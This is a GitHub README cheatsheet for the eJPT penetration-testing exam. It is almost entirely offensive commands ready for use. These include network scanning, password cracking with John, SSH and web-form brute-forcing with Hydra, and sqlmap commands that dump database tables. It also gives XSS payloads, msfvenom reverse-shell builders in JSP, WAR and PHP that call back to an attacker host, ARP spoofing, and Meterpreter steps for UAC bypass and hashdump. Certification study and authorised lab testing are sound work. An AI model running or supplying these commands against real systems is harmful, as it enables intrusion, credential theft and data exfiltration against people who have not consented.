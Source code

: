 # eJPT-Cheatsheet
This is a Cheatsheet for eJPT exam + course.

## Nmap
nmap -sn 10.10.10.0/24\
nmap -sV -p- -iL targets -oN nmap.initial -v\
nmap -A -p- -iL targets -oN nmap.aggressive -v\
nmap -p<port> --script=vuln -v <target-IP>

## fPing
fping -a -g 10.10.10.0/24 2>/dev/null > targets

## IP Route
**Syntax**\
ip route add \<Network-range\> via \<router-IP\> dev \<interface\>\
eg.\
ip route add 10.10.10.0/24 via 10.10.11.1 dev tap0

## John
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5\
unshadow passwd shadow > unshadowed.txt\
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt

## dirb
dirb http://10.10.10.10/ \
dirb http://10.10.10.10/dir -u admin:admin

*I suggest you to use dirbuster for better speed. Keep the threads at 20. Use /usr/share/wordlists/dirb/common.txt wordlist.*

## Netcat
**Listening for reverse shell**\
nc -nvlp 1234

**Banner Grabbing**\
nc -nv 10.10.10.10 \<port\>

## SQLMap
#### Check if injection exists
sqlmap -r Post.req\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin"

#### Get database if injection Exists
sqlmap -r login.req --dbs\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id --dbs\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" --dbs\

#### Get Tables in a Database
sqlmap -r login.req -D dbname --tables\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname --tables\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname --tables

#### Get data in a Database tables
sqlmap -r login.req -D dbname -T table_name --dump\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname -T table_name --dump\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname -T table_name --dump

## Hydra
**SSH Login Bruteforcing**\
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u 10.10.10.10 ssh\
hydra -v -V -u -l root -P passwords.txt -t 1 -u 10.10.10.10 ssh\
*You can use same for FTP, just replace ssh with ftp*

**HTTP POST Form**\
hydra http://10.10.10.10/ http-post-form "/login.php:user=^USER^&password=^PASS^:Incorrect credentials" -L usernames.txt -P passwords.txt -f -V

*You will know which wordlists to use when the time comes*


## XSS
\<script\>alert(1)\</script\>\
\<ScRiPt\>alert(1)\</ScRiPt\>

*This is a great filter bypass cheatsheet*\
https://owasp.org/www-community/xss-filter-evasion-cheatsheet

## msfvenom shells
**JSP Java Meterpreter Reverse TCP**\
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp

**WAR**\
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war

**PHP**\
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php\
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

## Metasploit Meterpreter autoroute
run autoroute -s 10.10.10.0/24

## ARPSpoof
echo 1 > /proc/sys/net/ipv4/ip_forward\
arpspoof -i <interface> -t <target> -r <host>\
arpspoof -i tap0 -t 10.100.13.37 -r 10.100.13.36

## SMB Enumeration
**Get shares, users, groups, password policy**\
smbclient -L //10.10.10.10/\
enum4linux -U -M -S -P -G 10.10.10.10\
nmap --script=smb-enum-users,smb-os-discovery,smb-enum-shares,smb-enum-groups,smb-enum-domains 10.10.10.10 -p 135,139,445 -v\
nmap -p445 --script=smb-vuln-* 10.10.10.10 -v

**Access Share**\
smbclient //10.10.10.10/share_name

## FTP Enumeration
nmap --script=ftp-anon 10.10.10.10 -p21 -v\
nmap -A -p21 10.10.10.10 -v

**Login to FTP server**\
ftp 10.10.10.10

## Meterpreter
ps\
getuid\
getpid\
getsystem\
ps -U SYSTEM

**CHECK UAC/Privileges**\
run post/windows/gather/win_privs

**BYPASS UAC**\
*Background the session first*\
exploit/windows/local/bypassuac\
set session

**After PrivEsc**\
migrate \<pid\>\
hashdump
  
## Windows Command Line
**To search for a file starting from current directory**\
dir /b/s "\*.conf\*"\
dir /b/s "\*.txt\*"\
dir /b/s "\*filename\*"

**Check routing table**\
route print\
netstat -r

**Check Users**\
net users

**List drives on the machine**\
wmic logicaldisk get Caption,Description,providername


